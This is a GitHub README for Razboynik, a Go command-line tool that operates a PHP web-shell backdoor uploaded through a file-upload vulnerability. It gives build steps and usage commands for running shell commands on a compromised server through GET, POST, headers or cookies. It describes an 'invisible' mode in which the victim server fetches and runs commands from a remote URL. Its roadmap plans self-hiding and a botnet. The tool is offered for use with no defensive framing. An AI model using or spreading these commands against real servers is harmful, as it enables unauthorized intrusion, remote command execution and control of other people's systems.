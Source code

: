 #Razboynik - разбойник
Razboynik is the FurezLegacy project on Go

##Main Goal ?
Razboynik wants to be the best reverse shell based on PHP backdoor

##FurezLegacy ?
FurezApi Framework was a little PHP website that exploit PHP backdoor.
It allow you to exploit file upload vulnerability on web server.
The main goal was pretty simple : Test every possibilities of infected files to upload, and then, if the upload is successful:

- giving you a user interface to manage datas
- allowing you to do what you want on server

Show the folder structure of the website ? Show a specific file ? Zip content ? Download content ? Upload or even delete ? If the API succeed to be upload on the server. You're the new king of this one!

##Why Razboynik ?
Where FurezApi Framework and later FurezExploit (C++ brother) were boring and long to setup and install, Razboynik learnt about those mistakes and fix it. 
Razboynik is giving you a better interface to handle the server (nothing better than shell). Easier to install, faster to use, better to customize and hot new functionnalities:
- Encoding all the request (Crypto on the way)
- Infected requests by GET, POST, Headers or Cookies
- Logs every result in file
- Better interface
- Easy to plug bundle and plugin thanks to modules
- Proxied tunnel (on the way)

##Binary
(Not available yet)

Binaries for differents platforms (Linux, Windows and soon or later Mac) will be available in the `./bin` directory. So if you don't want to build the application by yourself you can use it.

On Windows launch: `./bin/razboynik.exe`
On linux (in your terminal): (root directory) `./bin/razboynik`

##Build locally
###Requirements
These requirements are necessary only if you want to build the app:
- `Golang`

###Dependencies
These dependencies will be install:
- `eatbytes/razboy` (Business logic and core of razboynik)
- `eatbytes/sysgo` (Small abstraction of system command)
- `spf13/cobra` (Usefull utility to handle flag and parse command)
- `chzyer/readline` (Implementation of readline to loop on command)
- `fatih/color` (Great colors to push on terminal)
- `golang library` (fmt, strings, buffer, etc...)

###Installation
Instructions to build the app:
- `git clone https://github.com/EatBytes/razboynik.git` (or SSH if you want)
- `cd razboynik`
- `go get`
- `go build` or `go install`

The `go build` command will build the project locally (it means, only create a binary in the folder). `go install` create a binary available everywhere.

(Makefile on the way)

##Demo
[![asciicast](https://asciinema.org/a/92281.png)](https://asciinema.org/a/92281)

Let's suppose you find a file upload vulnerability in a website and you upload the script available in `res/backdoor` folder.
Now the url of your script could be (as example) : http://{website}/uploads/script.php

With this statement we can use razboynik as it follow :
- `./razboynik run http://{website}/uploads/script.php`

If you want to change the parameter sent, add -p flag and precise it. Like : `./razboynik run [URL] -p myParameter`.
By default the parameter is "razboynik". Parameter is the name of the field or header or cookie (depends on method) sent to server. If the method is GET, razboynik will simply add at the end of the url = ?razboynik={request}.

If you want to change the method, add -m flag as : `./razboynik run [URL] -m POST`.
By default, method is set to GET. You have the choice between : GET, POST, HEADER (evil request will be set in headers), COOKIE.

For more option you can add -h flag. Or type `./razboynik help`.

##API
You will find the API of all the business logic in the appropriate repository `razboy`

###run
Run a reverse shell with specified configuration

ARGUMENTS:
- `[URL]`: (string) Url of the target. Ex: `http://localhost/script.php`

OPTIONS: 
- `-m, --method`: (string) Method to use. Ex: `-m POST` (default: "GET")
- `-p, --parameter`: (string) Parameter to use. Ex: `-p test` (default: "razboynik")
- `-s, --shellmethod`: (int) Shellmethod to use. Ex: `-s 0` (default: 0) [0 => system(), 1 => shell_exec()]
- `-k, --key`: (string) Key to unlock optional small protecion. Ex: `-k keytounlock` (default: `FromRussiaWithLove<3`)
- `-r, --raw`: (bool) If set, send the request without base64 encoding
- `--proxy`: (string) Possible proxy to use. Ex: `--proxy http://localhost:8080` (default: nil)
- `-c, --crypt`: (Not available)

###generate
(Not available yet)

###scan
Scan a website to identify what shell method and method works on it.

ARGUMENTS:
- `[URL]`: (string) Url of the target. Ex: `http://localhost/script.php`

OPTIONS:
- `-p, --parameter`: (string) Parameter to use. Ex: `-p test` (default: "razboynik")
- `-k, --key`: (string) Key to unlock optional small protecion. Ex: `-k keytounlock` (default: `FromRussiaWithLove<3`)

###invisible
Execute a raw command available at an url (referer). Ex: http://website/cmd.txt point to `'echo 1;'` in body, then I can do : 
- `[URL] http://website/cmd.txt`

ARGUMENTS:
- `[URL]`: (string) Url of the target. Ex: `http://localhost/script.php`
- `[REFERER]`: (string) Url that the server will call to get the cmd to execute. Ex: `http://website.com/cmd-i-want-to-execute.txt`

###encode / decode
Encode or decode string.

ARGUMENTS:
- `[STR]`: (string) String to encode or decode in base64.

Ex: 
- `encode hello` => `aGVsbG8=`
- `decode aGVsbG8=` => `hello`

##Current version
2.0.0

##Roadmap
###~~1.5.0 (DONE)~~
- ~~Raw request~~
- ~~Better error in razboy (core)~~
- ~~Add more information when run fail~~
- ~~Add cookie method~~
- ~~Implement optional key protection~~
- ~~Add base64 encoding and decoding to root~~
- ~~Add invisible method~~

###2.0.0 (CURRENT)
- Complete refactoring on Cobra version
- More stability
- Better coding standarts
- Proxy available (works like a charm with mitmproxy)
- Web server (REST API)
- Hide itself once on server
- Zip
- Vim

###2.1.0 (IN PROGRESS)
- Add `./bin` folder with binaries
- More documentation
- Create a botnet. Handle multiple server at the same time
- Config file (necessary with botnet)
- Proxied tunnel
- Crypto ?
